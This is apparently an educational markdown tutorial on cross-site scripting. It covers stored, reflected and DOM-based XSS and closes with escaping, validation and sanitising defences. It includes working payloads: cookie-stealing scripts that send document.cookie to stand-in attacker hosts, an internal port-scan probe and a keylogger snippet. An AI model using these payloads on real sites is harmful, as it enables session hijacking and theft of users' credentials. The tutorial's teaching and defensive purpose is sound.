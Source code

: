 # Cross-Site Scripting (XSS)

### Introduction

Cross-site scripting, also known as XSS is a security vulnerability typically found in web applications. It’s a type of injection which can allow an attacker to execute malicious scripts and have it execute on a victim’s machine.

A web application is vulnerable to XSS if it uses unsanitized user input. XSS is possible in Javascript, VBScript, Flash and CSS.



### Possible Attacks

* **Cookie Stealing** - Stealing your cookie from an authenticated session, allowing an attacker to login as you without themselves having to provide authentication.
* **Keylogging** - An attacker can register a keyboard event listener and send all of your keystrokes to their own server.
* **Webcam snapshot** - Using HTML5 capabilities its possible to even take snapshots from a compromised computer webcam.
* **Phishing** - An attacker could either insert fake login forms into the page, or have you redirected to a clone of a site tricking you into revealing your sensitive data.
* **Port Scanning** - You read that correctly. You can use stored XSS to scan an internal network and identify other hosts on their network.
* **Other browser based exploits** - There are millions of possibilities with XSS.



### 3 Types of XSS

1. **Stored/Persistent XSS (Server-side)**
2. **Reflected XSS (Client-side)**
3. **DOM-Based XSS (Special)**



### **Stored XSS**

The most dangerous type of XSS. This is where a malicious string originates from the website’s database. This often happens when a website allows user input that is not sanitised (remove the "bad parts" of a users input) when inserted into the database.

A attacker creates a payload in a field when signing up to a website that is stored in the websites database. If the website doesn't properly sanitise that field, when the site displays that field on the page, it will execute the payload to everyone who visits it.

The payload could be as simple as `<script>alert(1)</script>`

However, this payload wont just execute in your browser but any other browsers that display the malicious data inserted into the database.

#### Cookie Stealing

Stored XSS can be used to steal a victims cookie (data on a machine that authenticates a user to a webserver). This can be done by having a victims browser parse the following Javascript code: `<script>window.location='http://attacker/?cookie='+document.cookie</script>` Once your victim (in this case you hope its Jack), to visit this page, it will log his cookie for you to steal!You can also use other HTML tags to make requests, including the img tag `<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />`



### **Reflected XSS**

The malicious payload is part of the victims request to the website. The website includes this payload in response back to the user. To summarise, an attacker needs to trick a victim into clicking a URL to execute their malicious payload.

This might seem harmless as it requires the victim to send a request containing an attackers payload, and a user wouldn't attack themselves. However, attackers could trick the user into clicking their crafted link that contains their payload via social-engineering them via email..

Reflected XSS is the most common type of XSS attack.

#### Example

An attacker crafts a URL containing a malicious payload and sends it to the victim. The victim is tricked by the attacker into clicking the URL. The request could be `http://example.com/search?keyword=<script>...</script>`

The website then includes this malicious payload from the request in the response to the user. The victims browser will execute the payload inside the response. The data the script gathered is then sent back to the attacker (it might not necessarily be sent from the victim, but to another website where the attacker then gathers this data - this protects the attacker from directly receiving the victims data).



### **Dom Based XSS**

DOM stands for Document Object Model and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document and this document can be either displayed in the browser window or as the HTML source.

#### Example

In a DOM-based XSS attack, a malicious payload is not actually parsed by the victim's browser until the website's legitimate JavaScript is executed. So what does this mean?

With reflective xss, an attackers payload will be injected directly on the website and will not matter when other Javascript on the site gets loaded.

```html
<html>
    You searched for <em><script>...</script></em>
</html
```

With DOM-Based xss, an attackers payload will only be executed when the vulnerable Javascript code is either loaded or interacted with. It goes through a Javascript function like so:

```javascript
var keyword = document.querySelector('#search')
keyword.innerHTML = <script>...</script>
```



### **Common XSS Payloads**

#### Port Scanner

[Link](http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) If an attacker is interested in what other devices are connected on the network, they can use Javascript to make requests to a range of IP addresses and determine which one responds.

For example, a website could try to find if your router has a web interface at 192.168.0.1 by:

```html
<img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">
```

#### XSS Keylogger

[Link](http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage.

```javascript
<script type="text/javascript">
	// Variable to store key-strokes in
	let l = "";
	// Event to listen for key presses
	document.onkeypress = function (e) {
		// "If user types, log it to the l variable"
   	l += e.key;
		// update this line to post to your own server
   	console.log(l);
	}
</script>
```

#### Filter Evasion

There are many techniques used to filter malicious payloads that are used with cross-site scripting.

#### Others

* Popup's `<script>alert(“Hello World”)</script>`
  * Creates a Hello World message popup on a users browser.
* Writing HTML (document.write)
  * Override the website's HTML to add your own (essentially defacing the entire page).



### [**XSS-Payloads.com**](http://www.xss-payloads.com/)

is a website that has XSS related Payloads, Tools, Documentation and more. You can download XSS payloads that take snapshots from a webcam or even get a more capable port and network scanner.



### Protection Methods

There are many ways to prevent XSS, here are the 3 ways to keep cross-site scripting our of your application.

1. **Escaping** - Escape all user input. This means any data your application has received is secure before rendering it for your end users. By escaping user input, key characters in the data received but the web page will be prevented from being interpreter in any malicious way. For example, you could disallow the < and > characters from being rendered.
2. **Validating Input** - This is the process of ensuring your application is rendering the correct data and preventing malicious data from doing harm to your site, database and users. Input validation is disallowing certain characters from being submit in the first place.
3. **Sanitising** - Lastly, sanitizing data is a strong defence but should not be used to battle XSS attacks alone. Sanitizing user input is especially helpful on sites that allow HTML markup, changing the unacceptable user input into an acceptable format. For example you could sanitise the < character into the HTML entity `&#60`;

